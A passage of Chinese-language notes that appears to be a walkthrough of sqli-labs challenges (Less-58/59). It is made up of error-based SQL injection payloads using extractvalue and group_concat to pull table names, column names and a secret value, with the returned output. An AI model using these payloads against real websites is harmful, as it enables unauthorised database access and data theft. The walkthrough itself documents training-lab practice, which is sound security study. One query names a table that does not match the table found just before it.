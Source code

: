 ![image-20201113095909219](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201113095909219.png)

?id=1' and extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()))) --+



![image-20201113103129503](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201113103129503.png)

表名RMAMEUAGKO

?id=-1' and extractvalue(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema='challenges' and table_name='dzgnt6f0xz'),0x7e))--+

![image-20201113105720248](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201113105720248.png)

id,sessid,secret_6Q42,tryy

?id=-1' and extractvalue(1,concat(0x7e,(select group_concat(secret_6Q42) from RMAMEUAGKO),0x7e))--+

![image-20201113105816615](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201113105816615.png)

ZjkBDvfBTQkzn7aAr5VrReRS

![image-20201113105930891](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201113105930891.png)



## 0X3FLess-59

判断闭合

?id=1 //

?id=1'

?id=1' --+

?id=1" 

……

?id=1 and 1=2 --+

?id=1 and 1=1 --+

数字型

爆表名

?id=1 and extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema='challenges'),0x7e))--+

![image-20201113110337289](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201113110337289.png)

Q0RQXNZCIP

?id=1 and extractvalue(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='Q0RQXNZCIP'),0x7e))--+
